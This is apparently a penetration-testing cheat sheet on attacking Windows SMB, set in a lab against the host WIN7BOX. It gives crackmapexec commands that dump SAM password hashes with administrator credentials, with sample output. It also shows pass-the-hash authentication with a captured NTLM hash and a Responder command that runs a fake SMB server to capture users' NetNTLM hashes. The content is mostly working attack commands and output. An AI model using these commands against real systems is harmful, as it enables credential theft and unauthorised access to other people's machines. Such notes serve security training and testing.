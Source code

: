 #### Extract Hashes from SAM Database
* The Security Account Manager (SAM) is a database file that stores users' passwords

```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Dumping SAM hashes
SMB         10.10.110.17 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.10.110.17 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
SMB         10.10.110.17 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
SMB         10.10.110.17 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
SMB         10.10.110.17 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

#### Pass-the-Hash (PtH)
* If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH)
* Allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\Administrator:2B576ACBE6BCFDA7294D6BD18041B8FE (Pwn3d!)
```

#### Forced Authentication Attacks
* We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)
*  most common tool to perform such operations is the [Responder](https://github.com/lgandx/Responder)
* Create a fake SMB server 

```bash
responder -I <interface name>
```

* Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`
* In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server
* This is a problem because no measures are taken to verify the integrity of the responses
